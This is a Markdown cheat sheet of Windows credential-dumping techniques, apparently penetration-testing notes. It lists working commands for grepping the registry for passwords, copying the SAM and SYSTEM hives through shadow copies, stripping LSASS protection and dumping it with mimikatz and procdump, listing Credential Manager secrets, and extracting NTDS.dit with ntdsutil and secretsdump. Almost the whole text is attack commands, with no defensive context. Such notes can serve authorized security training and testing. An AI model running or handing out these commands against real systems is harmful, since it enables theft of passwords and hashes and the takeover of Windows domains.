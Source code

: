 # 1-Find Clear-Text Files:
- **Powershell History**:
```
Path: C:\<UserName>\USER\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```
- **Registry: find password keyword**:
```
c:\Users\user> reg query HKLM /f password /t REG_SZ /s
C:\Users\user> reg query HKCU /f password /t REG_SZ /s
```
- **Also look for:**
  - Database Files
  - Memory Dump
  - Active Directory.Users' description
  - Network Sniffing

# 2-Key Logging

# 3-SAM Database:
  - Path: c:\Windows\System32\config\sam
  - we can not read it and copy it
  - SAM database is encrypted either with RC4 or AES.we need a decryption key which is also stored in the files system in **c:\Windows\System32\Config\system** 
    ### how to Dump:
    - 1-MetaSploit.hashdump
    - 2-Microsoft Volume shadow copy:
        ```
        wmic shadowcopy call create Volume='C:\'
        #find where it is stored
        vssadmin list shadows
        copy \\path\to\volume\sam  \\somewhere-Else
        copy \\path\to\volume\\system \\soemwhere-Else
        ```
# 4-Registry Hives:
```
reg save HKLM\sam C:\users\Administrator\Desktop\sam-reg
reg save HKLM\system C:\users\Administrator\Desktop\system-reg
#Extract
secretsdump.py -sam /tmp/sam-reg -system /tmp/system-reg LOCAL
```

# 5-Dump LSASS(cached credentials):
  - **Protected LSASS**:
    - disable from Registry:
    ```
    HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Lsa
    ```
    - disable with mimikatz:
    ```
    mimikatz # !+
    mimikatz # !processprotect /process:lsass.exe /remove
    ```

  - 5.1-Using GUI with Task-Manager
  - 5.2-Using procdump
  ```
  procdump.exe -accepteula -ma lsass.exe c:\<somewhere>
  ```
  - 5.3-mimikatz
  ```
  mimikatz # sekurlsa::logonpasswords
  ```
  
# 6-Windows Credential Manager:
  - Stored Credentials in system:
  ```
  vaultcmd /list
  VaultCmd /listproperties:"Web Credentials"
  VaultCmd /listcreds:"Web Credentials"
  VaultCmd /listproperties:"Windows Credentials"
  VaultCmd /listcreds:"Windows Credentials"
  cmdkey /list
  runas /savecred /user:<Domain>\Username cmd.exe
  mimikatz # sekurlsa::credman
  ```
    - The VaultCmd is not able to show the password. we can use this tools [Get-WebCredentials.ps1](https://github.com/samratashok/nishang/blob/master/Gather/Get-WebCredentials.ps1)
      ```
      Import-Module C:\Tools\Get-WebCredentials.ps1
      Get-WebCredentials
      ```
# 7-NTDS:
  - **Local**:
    - we need the following files:
        - C:\Windows\NTDS\ntds.dit
        - C:\Windows\System32\config\SYSTEM
        - C:\Windows\System32\config\SECURITY
    - with Powershell:
    ```
    #Dump
    powershell "ntdsutil.exe 'ac i ntds' 'ifm' 'create full c:\temp' q q"
    #Extract
    secretsdump.py -security path/to/SECURITY -system path/to/SYSTEM -ntds path/to/ntds.dit local
    ```
